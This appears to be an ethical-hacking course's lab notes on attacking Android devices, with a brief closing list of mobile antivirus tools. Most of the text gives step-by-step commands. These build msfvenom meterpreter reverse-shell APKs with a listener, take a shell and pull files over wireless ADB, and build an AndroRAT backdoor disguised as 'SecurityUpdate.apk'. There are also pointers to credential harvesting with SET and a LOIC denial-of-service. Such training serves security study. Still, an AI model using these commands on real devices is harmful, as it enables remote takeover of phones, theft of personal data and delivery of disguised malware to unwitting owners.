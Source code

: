 # Module 17

## Hacking Mobile Platforms
Mobile devices are prime targets for attackers due to the vast amount of personal and corporate data they hold. This module explores the techniques used to exploit mobile platforms, focusing on Android vulnerabilities, malicious applications, and data theft.

**Objective**:    
To perform hands-on security attacks on an Android device to identify and understand its vulnerabilities. 
Key tasks include:
- Exploit the Vulnerabilities in an Android device
- Obtain Users’ Credentials
- Hack Android device with a Malicious Application
- Use an Android device to launch a DoS attack on a target
- Exploit an Android Device through ADB
- Perform a Security Assessment on an Android device

**Approach**:    
The lab uses a practical approach to simulate real-world attacks. This involves creating and deploying malicious software, exploiting system tools like ADB, and testing the device's security posture to learn how to defend against these threats.

---

### 1. Hack Android Devices
As a professional ethical hacker or pen tester, you should be familiar with all the hacking tools, exploits, and payloads to perform various tests mobile devices connected to a network.

#### 1.1 Hack Android devices with binary payload msfvenom
**Steps**:    
- Create payload
  - `msfvenom –p android/meterpreter/reverse_tcp LHOST=Localhost IP  LPORT=LocalPort -f raw > android_shell.apk`
  - `msfvenom –p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=Localhost IP  LPORT=LocalPort R > android_shell.apk`
- Open multihandler and set the payload as following
  - `use exploit/multi/handler`
  - `set payload android/meterpreter/reverse_tcp`
  - `set LHOST <your-ip-address>`
  - `set LPORT 4444`
  - `exploit`
- After getting the shell
  - `pwd`
  - `cd /sdcard`
  - `ps`

#### 1.2 Harvest credentials using SET
Refer to SET tutorial to capture the credentials

#### 1.3 DOS using LOIC on Android
LOIC apk available. Use that

#### 1.4 Exploit the Android Platform through ADB using PhoneSploit-Pro
Android Debug Bridge (ADB) is a versatile command-line tool that lets you communicate with a device. ADB facilitates a variety of device actions such as installing and debugging apps, and provides access to a Unix shell that you can use to run several different commands on a device.

Usually, developers connect to ADB on Android devices by using a USB cable, but it is also possible to do so wirelessly by enabling a daemon server at TCP port 5555 on the device.
[GitHub - AzeemIdrisi/PhoneSploit-Pro](https://github.com/AzeemIdrisi/PhoneSploit-Pro)
[Hacking Android Using PhoneSploit](https://n00bie.medium.com/hacking-android-using-phonesploit-ffbb2a899e6)

**Installation**    
- `git clone https://github.com/AzeemIdrisi/PhoneSploit-Pro.git`
- `cd PhoneSploit-Pro/`
- `pip install -r requirements.txt`
- `python3 phonesploitpro.py`
> If adb not found error
- `sudo apt update`
- `sudo apt install android-tools-adb android-tools-fastboot`

To launch the tool, Use the following command: `python3 phonesploitpro.py`
- The PhoneSploit Pro main menu options appear, as shown in the screenshot.
- Type 1 and press Enter to select 1. Connect a Device option.When prompted to Enter a phones ip address, type the target Android device’s IP address (in this case, 10.10.1.14) and press Enter. If you are getting Connection timed out error, then type 1 again and press Enter. If you do not get any option, then type 1 and press Enter again, until you get Enter a phones ip address opti
- You will see that the target Android device (in this case, 10.10.1.14) is connected through port number 5555.
- Now, you can try different exploits

**Doing the same stuff with adb**    
`apt-get update`
`sudo apt-get install adb -y`
`adb devices -l`

> Connection Establish Steps
- `adb connect 192.168.0.4:5555`
- `adb devices -l`
- `adb shell`

> Download a File from Android using ADB tool
- `adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt`
- `adb pull sdcard/log.txt /home/mmurphy/Desktop`

#### 1.5 Hack android devices with AndroRAT
AndroRAT is a tool designed to give control of an Android system to a remote user and to retrieve information from it. AndroRAT is a client/server application developed in Java Android for the client side and the Server is in Python. AndroRAT provides a fully persistent backdoor to the target device as the app starts automatically on device boot up, it also obtains the current location, sim card details, IP address and MAC address of the device.
[GitHub - karma9874/AndroRAT](https://github.com/karma9874/AndroRAT)

- You can move into the AndroRAT folder and then use the following command to create an APK file.
- `python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk`
  - `--build`: is used for building the APK
  - `-i`: specifies the local IP address (here, 10.10.1.13)
  - `-p`: specifies the port number (here, 4444)
  - `-o`: specifies the output APK file (here, SecurityUpdate.apk)
- An APK file (SecurityUpdate.apk) is generated at the location /home/attacker/AndroRAT/
- Now, move the apk file to the target and use the following command to open a listener.
- `python3 androRAT.py --shell -i 0.0.0.0 -p 4444`
  - `--shell`: is used for getting the interpreter
  - `-i`: specifies the IP address for listening (here, 0.0.0.0)
  - `-p`: specifies the port number (here, 4444)
- Install the malicious application on your target and you will get the shell.
- In the Interpreter session, type help and press Enter to view the available commands.
You can also use other Android hacking tools such as hxp_photo_eye (https://github.com), Gallery Eye (https://github.com), mSpy (https://www.mspy.com), and Hackingtoolkit (https://github.com) to hack Android devices.

---

### 2. Secure Android Device 
Like personal computers, mobile devices store sensitive data and are susceptible to various threats. Therefore, they should be properly secured.

#### 2.1 Secure Android Devices from Malicious Apps using AVG
AVG AntiVirus is mobile security tool that provides protection against harmful viruses and malware. It also provides protection to your personal data afe with App Lock, Photo Vault, Wi-Fi Security Scan, Hack Alerts, Malware security, and App Permissions advisor.
[AVG AntiVirus & Security - Apps on Google Play](https://play.google.com/store/apps/details?id=com.antivirus&hl=en)

#### 2.2 Analyze malicious apps using online Android Analyzers
[Sixo Online APK Analyzer | sisik](https://sisik.eu/apk-tool)

#### 2.3 Secure Android devices with Malware Bytes
[Malwarebytes Mobile Security - Apps on Google Play](https://play.google.com/store/apps/details?id=org.malwarebytes.antimalware&hl=en&pli=1)

You can use other mobile antivirus and anti-spyware tools such as Certo: Anti Spyware & Security (https://play.google.com), Anti Spy Detector - Spyware (https://play.google.com), iAmNotified - Anti Spy System (https://iamnotified.com), Anti Spy (https://www.protectstar.com), and Secury - Anti Spy Security (https://apps.apple.com) to secure mobile devices from malicious apps.


---
---
